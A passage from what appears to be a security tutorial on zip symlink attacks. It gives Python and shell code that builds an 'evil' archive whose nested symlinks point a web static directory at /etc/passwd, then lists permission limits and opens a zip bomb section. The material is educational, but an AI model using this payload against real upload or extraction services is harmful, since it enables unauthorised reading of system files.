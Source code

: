 For a double symlink attack, we just create another entry for the directory.

```diff-python
 # evil-link-dir-file.zip
 # └── dirlink/           -> /app/static/
 #     └── passwd.html    -> /etc/passwd
 with zipfile.ZipFile("evil-link-dir-file.zip", "w", compression=zipfile.ZIP_DEFLATED) as zip:
   # Order matters! Write dir first, then file.
+  info = zipfile.ZipInfo("dirlink")
+  info.create_system = 0
+  info.external_attr = (stat.S_IFLNK | 0o777) << 16
+  zip.writestr(info, "/app/static/")

   info = zipfile.ZipInfo("dirlink/passwd.txt") # Also change the filename here.
   info.create_system = 0
   info.external_attr = (stat.S_IFLNK | 0o777) << 16
   zip.writestr(info, "/etc/passwd")
```

{% enddetails %}

{% details "With Shell Commands" %}
Shell commands also work. (Make sure to use `-y`/`--symlinks` when zipping symlinks. Otherwise, you'd be adding your actual `/etc/passwd`!)

```sh
# Create our (soft) links.
ln -s /app/static/ dirlink
ln -s /etc/passwd dirlink/passwd.txt
# Zip the links.
zip -y evil-link-dir-file dirlink dirlink/passwd.txt
```

Note that this approach will leave leftover files to be cleaned up (or reused).
{% enddetails %}

#### Limitations of Zip Symlink Attacks

- Permissions on Linux.
  - To create a symlink, we need execute permissions in the source directory (where the linked file is located) and write/execute permissions in the target directory (where the symlink is created).[^ref-linuxlinkperm]
  - Reading a symlink requires execute permissions in the source directory, and read permissions on the source file.
- Permissions on [Windows](https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/create-symbolic-links). By default, only Administrators have the privilege to create symbolic links. This setting can be changed by [editing the local group policy](https://superuser.com/a/105381) (typically for users) or by directly enabling `SeCreateSymbolicLinkPrivilege` (typically for processes).

[^ref-linuxlinkperm]: Reference: [SO: Minimum Permissions Required to Create a Link to a File](https://stackoverflow.com/questions/40667014/linux-what-are-the-minimum-permissions-required-to-create-a-link-to-a-file)


### Zip Bomb 💣

Since we're talking about attacks, let's also cover zip bombs for completeness.


[^root]: Assuming we run as `root`, or as long as permissions don't get in the way.
[^really-by-extension]: Okay, I skipped some steps here, but didn't want to overcomplicate things. The long answer is: reading a symlink also depends on permissions of the {% abbr "source file", "the file linked by the symlink" %} and the {% abbr "source directory", "the directory containing the source file" %}. ***If*** we can read files in our upload directory **and** if we have sufficient permissions, then we can (potentially) have arbitrary read.
[^deflate]: This is the same compression algorithm used in gzip (commonly used for transferring files across the web) and PNGs.
[^fifield]: The technical article by Fifield is here: *https://www.bamsoftware.com/hacks/zipbomb/*. But it may be blocked on your browser.